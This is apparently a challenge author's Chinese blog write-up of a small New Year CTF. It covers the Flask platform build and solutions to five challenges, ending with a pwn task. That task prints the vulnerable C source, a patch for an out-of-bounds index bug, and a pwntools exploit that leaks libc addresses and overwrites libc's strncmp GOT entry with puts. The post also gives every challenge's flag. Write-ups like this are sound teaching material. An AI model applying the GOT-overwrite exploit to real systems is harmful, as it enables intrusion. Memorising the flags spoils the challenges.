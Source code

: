 ```yaml
---
title: 2025 新年火箭杯
date: 2025/02/13 14:29:00
updated: 2025/02/13 18:45:00
tags:
    - challenge author
    - got-hijack
    - libc-hook
    - multi-directions
thumbnail: /assets/trueblog/newyear2025/banner.png
excerpt: 去年除夕就搞了“第一届火箭杯”，今年新一届来了！奖金加码到300元，题目增加一题，还搭建了专用平台（虽然没什么人做）。一起来看看平台搭建和题目详解吧
---
```


去年整了4题，在qq上分发，总共发了200。今年赚了点米，奖金加到了300元，还专门开设了新平台，
由于难度有所上浮，大家做的积极性并不高，不过至少每个方向都有人出。

{% note green fa-arrow-up-right-from-square %}
现在就可以访问: https://newyear.rocketma.dev
{% endnote %}

## 手搓平台

既然是如此小型的比赛，自不必使用ctfd等大型平台。为了顺便了解一点前端的知识，
我自己用Flask手搓了一个平台。在使用qwen2.5生成一段起始html后，我就开始自己探索，
完成了剩下网页的构建。我总共花了2天时间来手搓，不得不说，相比以前，有了llm后，
ai写参考代码方便了很多。

{% note blue fa-warehouse %}
webui现已开源: https://github.com/RocketMaDev/RocketCup2025WebUI
{% endnote %}

边学边写，我自学了一部分css和js，对于弹窗，采用了js动态注入的方式，同时界面做了一定程度的美化，
看起来应该是比较现代化的。虽然比不过ret2shell等大型平台，但是对于过年小比赛，flag固定的情况来说，
差不多是够用了。REST API部分全部采用GET，基本上遍历了所有情况，不会出什么bug。

最后部署，使用`gunicorn`来分发flask服务，搭建在本机上，通过nginx做反向代理，
绑定到机器的443端口。1Panel确实好用，通过web前端可以很方便地设置let's encrypt的证书，
查看web日志，设置防火墙规则什么的。

{% note yellow fa-circle-exclamation %}
`torus`是 **MyFonts** 上的专有字体，虽然osu中有用到，但是我没有版权来分发，
因此仓库中没有包含。
{% endnote %}

## 题解

所有的附件可以在[平台仓库的Releases](https://github.com/RocketMaDev/RocketCup2025WebUI/releases/tag/release)
中找到
### 你的第一个红包！

> NWERFnen0es4yEYA{3cEcd1Es}

看起来像是栅栏编码，一把梭

![fence](/assets/trueblog/newyear2025/fence.png)

{% note default fa-flag %}
`NEWYEAR{F3nceEnc0de1sE4sy}`
{% endnote %}

### find $(pwd)

> 下载图片，看看我是从哪里拍的？（不是在拍哪）  
> flag提交格式：`NEWYEAR{str(sha256(f"{经度:.2f},{纬度:.2f}"))[:18]}`

{% folding grey::照片 %}
![](/assets/trueblog/newyear2025/img.jpg)
{% endfolding %}

这张照片拍的是西湖旁边的八卦田，将照片对着地图摆一摆可以推测出我是从其西北处的山上拍的，
在山坡上取一个方便拍照的地，坐标大约是`120.14,30.21`，因此计算其sha256得到flag。

<img src="/assets/trueblog/newyear2025/position.png" height="70%" width="70%">

{% note default fa-flag %}
`NEWYEAR{2b699aff46606103b4}`
{% endnote %}

### unpacker

> 真有这么多数据交换格式？  
> 找出压缩包中1234文件分别对应的格式，从其中文维基百科页面提取url的最后一个字段，
> 并用空格拼接起来，sha256后得到flag。  
> 例如：1234分别对应w x y z，w的维基url是https://zh.wikipedia.org/wiki/W ，那么取W。
> w x y z最后得到W X Y Z，使用`sha256(['W', 'X', 'Y', 'Z'].join(' '))[:18]`包上
> `newyear{}`后得到flag。

没啥好说的，就是认格式。从1到4分别是avro, bson, msgpack, protobuf。
计算`sha256('Apache_Avro BSON MessagePack Protocol_Buffers')`

{% note default fa-flag %}
`NEWYEAR{459794aa79b251ddd8}`
{% endnote %}

### crackZsh

> 去年是bash脚本逆向，今年zsh脚本卷土重来！

为了方便调试，可以把`verify`中用来处理异常的大括号去掉，然后在发生错误时，
把return码修改方便trace，这样就可以很方便地定位验证进度。
以下是还原后的脚本与配套的解释，可以看出渐进式验证flag的过程。

其中`typeset -A arr`的作用是将其类型设为哈希表。其他的zsh特性可以查阅
[zshguide](https://github.com/goreliu/zshguide)。

```zsh restored.zsh
#!/bin/zsh

print Input your flag to get your red envelop!
read FLAG

verify() {
    typeset -A arr
    FLAG=$1
    # 限定flag长度和起始、末尾
    if [[ $#FLAG -ne 27 ]] || [[ $FLAG[1,8] != "NEWYEAR{" ]] || [[ $FLAG[-1] != "}" ]] {
        return 1
    }
    # NEWYEAR{xxxxxxxxxxxxxxxxxx}
    # date的第6个词是2025，因此第一个字符为2
    tmp=$FLAG[9]
    param=$(printf '{print $%d}' $(($tmp+4)))
    if [[ $(LC_ALL=C date | awk $param) != "2025" ]] {
        return 2
    }
    # NEWYEAR{2xxxxxxxxxxxxxxxxx}
    # 读入当前脚本的内容到buf中，寻找第9字符处的2个字符，即sh
    buf=$(<$2)
    if [[ $buf[(i)$FLAG[10,11]] -ne 9 ]] {
        return 3
    }
    # NEWYEAR{2shxxxxxxxxxxxxxxx}
    # 第12字符处为3
    if [[ $FLAG[$((10 + $tmp))] -ne $(($tmp + 1)) ]] {
        return 4
    }
    # NEWYEAR{2sh3xxxxxxxxxxxxxx}
    # 查表得原始字符串为"Ll"，由于有"C"，因此原先可能是ll，由md5sum可以验证
    arr=(L o r e m I p s u m A l i q o a V e l i t x)
    buf=${(C)${FLAG[13,14]}}
    if [[ "$arr[$buf[1]]$arr[$buf[2]]" != "oi" ]] || [[ $(print $FLAG[13,14] | md5sum | cut -c -5) != "243c4" ]] {
        return 5
    }
    # NEWYEAR{2sh3llxxxxxxxxxxxx}
    # 第15字符处的码位为95，即_
    if [[ $(python -c "print(ord('$FLAG[15]'))") -ne 95 ]] {
        return 6
    }
    # NEWYEAR{2sh3ll_xxxxxxxxxxx}
    # (?? << 2) - 289 == 95，推断出原来是96
    buf=$(($FLAG[16,17] << $tmp))
    if [[ $(python -c "print(chr($buf - 289))") != $FLAG[15] ]] {
        return 7
    }
    # NEWYEAR{2sh3ll_96xxxxxxxxx}
    # 从"96"处截断后，第3 4字符和"96"等同
    buf=$FLAG[16,17]
    tmp=${FLAG#*$buf}
    if [[ $tmp[3,4] != $buf ]] {
        return 8
    }
    # NEWYEAR{2sh3ll_96xx96xxxxx}
    # hex(96 + 96) => 16#C0，取3 4字符小写为c0
    buf=$(([#16] $(($FLAG[16,17] + $FLAG[20,21]))))
    tmp=${buf:l}
    if [[ $tmp[4,5] != $FLAG[18,19] ]] {
        return 9
    }
    # NEWYEAR{2sh3ll_96c096xxxxx}
    # 将22 23字符视为次数，重复向buf附加3个字符，根据buf长度穷举爆破，推得buf长度为45，即这两个字符为15
    buf=
    repeat $FLAG[22,23] {
        buf+=$FLAG[24,26]
    }
    if [[ $(print $#buf | sha256sum | cut -c -5) != "42000" ]] {
        return 10
    }
    # NEWYEAR{2sh3ll_96c09615xxx}
    # 将buf中所有da替换为ad，要求前6个字符为_dca__，在变换前就是d_c_a_，因为字符按3个一组是不断重复的，因此这6个字符就是dacdac
    buf=${buf//da/ad}
    if [[ $buf[2,4] != "dca" ]] {
        return 11
    }
    # NEWYEAR{2sh3ll_96c09615dac}
    return 0
}

verify $FLAG $0
err=$?
if [[ $err -eq 0 ]] {
    print Flag verified, congratulations!
} else {
    print Incorrect flag: $err
}
```

{% note green fa-heart %}
本题只有 *mantle* 做出，太强了！
{% endnote %}

{% note default fa-flag %}
`NEWYEAR{2sh3ll_96c09615dac}`
{% endnote %}

### put?env!

> Flag放在环境变量里，但是要被覆写了😨  
> 沙箱中除了read和write以外的系统调用，都只是为了让程序不似，不是用来利用的  
> libc是2.35-0ubuntu3.8_amd64  
> nc newyear.rocketma.dev 1337

{% folding purple::题目源码 %}
```c putenv.c
#include <stdlib.h>
#include <stdbool.h>
#include <stdio.h>
#include <seccomp.h>

void sandbox(void) {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (!ctx)
        goto kill;
    int rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(newfstatat), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
    if (rc < 0)
        goto kill;
    rc = seccomp_load(ctx);
    if (rc < 0)
        goto kill;
    return;
kill:
    exit(-1);
}

int main(void) {
    setbuf(stdout, NULL);
    unsigned long arr[3] = {0x2025, 0x6666, 0x8888};
    puts("Happy 2025!");
    puts("You got one chance to set value");
    long recv = 0;
    bool done = false;
    sandbox();
    do {
        puts("Which to set?");
        printf("IDX > ");
        int err = scanf("%ld", &recv);
        while (getchar() != '\n');
        if (!err)
            continue;
        if (recv >= 3)
            puts("No way!!");
        else {
            printf("Is this what you want? %#lx\n", arr[recv]);
            printf("[Y/n] ");
            int ch = getchar();
            if (ch == '\n' || (getchar(), ch == 'y'))
                done = true;
        }
    } while (!done);
    done = false;
    do {
        puts("Tell me what you want");
        printf("VAL > ");
        int err = scanf("%ld", arr + recv);
        if (!err) {
            while (getchar() != '\n');
            continue;
        }
        done = true;
    } while (!done);
    puts("Now the FLAG is gone!");
    setenv("FLAG", "", 1);
    return 0;
}
```
{% endfolding %}

保护全开，64位。由于libc是2.35，因此got表可写。这道题的出题思路其实来源于今年强网杯，
看狼组的wp时发现有非预期可以读环境变量。查看源码可知，`setenv`调用`__add_to_environ`，
而在`__add_to_environ`中，有一个遍历所有环境变量的地方：

```c stdlib/setenv.c
  ep = __environ;

  size = 0;
  if (ep != NULL)
    {
      for (; *ep != NULL; ++ep)
        if (!strncmp (*ep, name, namelen) && (*ep)[namelen] == '=')
          break;
        else
          ++size;
    }
```

在这个地方不难看出所有环境变量都会经历一遍`strncmp`，并且第一个参数恰好是环境变量字符串。
不难想到，如果把`strncmp`的got绑定到`puts`，就可以泄露所有环境变量。由于`puts`
的返回值是打印的字符数，因此不会出现进入&&分支。

因为我禁用了几乎所有系统调用，并且只能写一个QWORD，所以大概没有什么非预期，
直到 *山西小嫦娥* 来向我反馈。

{% note green fa-heart %}
感谢 *山西小嫦娥* 的反馈！
{% endnote %}

由于指针是无符号数，而输入时`recv`需要乘以8才会与指针相加，因此完全可以通过控制输入，
使得`recv * 8`为大于3的正数，从而实现环境变量区的任意读。于是我加了以下这一条patch
来使得这个trick也不能通过检查。

```diff fix-wrap-arround.patch
--- putenv.c
+++ putenv.c
@@ -56,3 +56,3 @@
             continue;
-        if (recv >= 3)
+        if (recv >= 3 || arr + recv > arr + 3)
             puts("No way!!");
```

{% note blue fa-face-sad-tear %}
然而，我在重新编译程序后，确实更新了xinetd服务的二进制，却忘记更新web服务分发的二进制。
也就是说，修补后网页上分发的程序和实际跑的程序并不是同一个，并且相关的偏移也变了，
因此写出“正确”的脚本也有可能打不通，向大家道歉。
{% endnote %}

最后，解题思路就是从栈上获取libc基址和栈基址，计算得到`libc.got['strncmp']`的位置，
利用唯一的一次修改，将其改为`puts`，这样在`setenv`时就会打印出所有flag。exp：

```python putenv.py
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './putenv'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('newyear.rocketma.dev', 1337)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    def select(idx: int, goon: bool) -> int:
        assert idx < 3
        sh.sendlineafter(b'IDX', str(idx).encode())
        sh.recvuntil(b'want?')
        key = int(sh.recvline(), 16)
        sh.sendlineafter(b'Y/n', b'n' if goon else b'y')
        return key

    libcBase = select(-15, True) - libc.symbols['_IO_2_1_stdout_']
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase

    arrayBase = select(-6, True) + 8
    success(GOLD_TEXT(f"Leak arrayBase: {arrayBase:#x}"))

    select((libc.got['strncmp'] - arrayBase) // 8, False)
    sh.sendlineafter(b'VAL', str(libc.symbols['puts']).encode())

    sh.recvuntil(b'NEWYEAR{')
    flag = b'NEWYEAR{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode('utf-8')}")
    sh.close()
```

{% note default fa-flag %}
![](/assets/trueblog/newyear2025/flag.png)
{% endnote %}
